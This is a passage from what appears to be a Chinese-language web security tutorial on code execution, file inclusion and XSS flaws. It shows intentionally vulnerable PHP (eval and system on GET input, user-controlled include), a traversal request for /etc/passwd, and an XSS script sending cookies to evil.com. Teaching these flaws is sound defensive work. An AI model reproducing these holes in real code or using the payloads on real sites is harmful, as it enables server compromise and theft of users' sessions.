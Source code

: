 ### 3.1. 危害级别：严重

- 可在服务器上执行任意代码
- 可能导致服务器被完全控制

### 3.2. 示例漏洞代码：

```php
// 危险的代码
eval($_GET['code']);

// 不安全的系统命令执行
system("ping " . $_GET['ip']);
```

## 4. 文件包含漏洞 (File Inclusion)

### 4.1. 本地文件包含 (LFI)

```php
// 危险的包含
include($_GET['page'] . ".php");

// 可能导致敏感文件泄露
/index.php?page=../../../etc/passwd
```

### 4.2. 远程文件包含 (RFI)

```php
// 危险的远程包含
include("http://" . $_GET['url']);
```

## 5. 跨站脚本 (XSS - Cross-Site Scripting)

### 5.1. 反射型 XSS

```html
<!-- 不安全的输出 -->
<div>Welcome <?php echo $_GET['name']; ?></div>

<!-- 安全的输出 -->
<div>Welcome <?php echo htmlspecialchars($_GET['name']); ?></div>
```

### 5.2. 存储型 XSS

```javascript
// 数据库中存储的恶意脚本
<script>
    new Image().src = 'http://evil.com/steal.php?cookie=' + document.cookie;
</script>
```
